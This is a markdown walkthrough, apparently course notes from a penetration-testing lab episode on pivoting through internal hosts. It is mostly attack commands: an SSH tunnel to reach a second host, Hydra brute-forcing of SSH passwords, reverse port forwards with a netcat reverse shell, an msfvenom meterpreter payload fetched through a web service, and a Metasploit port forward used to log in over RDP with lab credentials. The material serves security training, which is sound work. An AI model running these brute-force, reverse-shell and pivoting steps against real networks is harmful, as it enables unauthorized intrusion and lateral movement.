









---
---

# IML - Infrastructure Pen Testing: Ep.7 — Pivoting






Pivot 1: **root : PwnedR00t**

Target 2: **Administrator : Adm1nPass**

1.) Setup SSH Tunnel:

```bash
ssh -L 2222:10.102.173.65:22 root@10.102.16.36 -v

```



2.) Run Hydra (It does take a few minutes):

```bash
hydra -l root -P /usr/share/wordlists/metasploit/burnett_top_1024.txt 127.0.0.1 ssh -s 2222

```



3.)
- **<u>Target1:</u>**
**root : michael1**

- SSH into Target1 (with the portforward still running):

```bash
ssh root@localhost -p 2222

```



IP's changed



4.)Extra challenge: Try sending a reverse shell from the first target back to the Kali machine:

- Set up reverse port forward (on the pivot machine)

```bash
portfwd add -R -L <KALI IP> -l 6666 -r 7777

```
or something like:

```bash
ssh -R <Windows 7 Internal Network IP>:<Windows 7 Unused Port>:<Kali Linux Local IP>:<Kali Linux reverse shell listening port> <username>@<Windows 7 IP>

```
- Start listener locally on port 6666 (on Kali)

- On target 1, netcat to pivot machine on 7777 (or use a msfvenom payload with port 7777)

```bash
nc 10.102.32.119 7777

```
5.)Use the second pivot host's port 80 service to get a reverse shell:

- Go to  `http:// 10.102.43.238`

- Create msfvenom payload:

```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.102.184.68 LPORT=9000 -f elf -o reverse.elf

```
- Setup python server

- Run:
http://10.102.184.68:8000/reverse.elf




6.)Using Metasploit's port forwarder, RDP into the second target:

**portfwd add -l \<PORT_ON_LOCAL_MACHINE\> -p \<REMOTE_PORT\> -r \<DESTINATION_HOST\>**

```bash
portfwd add -l 5555 -p 3389 -r 10.102.108.144
```



```bash
xfreerdp /u:Administrator /v:127.0.0.1:5555 /p:Adm1nPass
```


